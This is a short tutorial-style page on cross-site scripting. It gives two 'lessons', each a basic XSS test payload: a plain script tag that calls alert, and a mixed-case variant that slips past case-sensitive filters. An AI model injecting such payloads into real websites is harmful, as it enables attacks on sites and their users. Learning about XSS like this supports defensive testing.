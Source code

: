 # XSS - Cross Site Scripting

*Lesson One*

```bash
<script>alert(1)</script>
```

*Lesson Two*

```bash
<sCrIpT>AlErT(1)</ScRiPt>
```

